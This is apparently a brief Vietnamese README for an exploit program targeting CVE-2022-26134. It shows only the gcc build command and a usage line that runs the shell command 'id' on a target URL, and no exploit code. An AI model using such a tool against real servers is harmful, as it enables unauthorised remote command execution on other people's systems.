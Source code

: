 
# CVE_2022_26134

-Cách biên dịch:
>gcc -o cve2022_26134_exploit cve_2022_26134_exploit.c -lcurl
-Cách chạy:
>./cve2022_26134_exploit https://target.com "id"
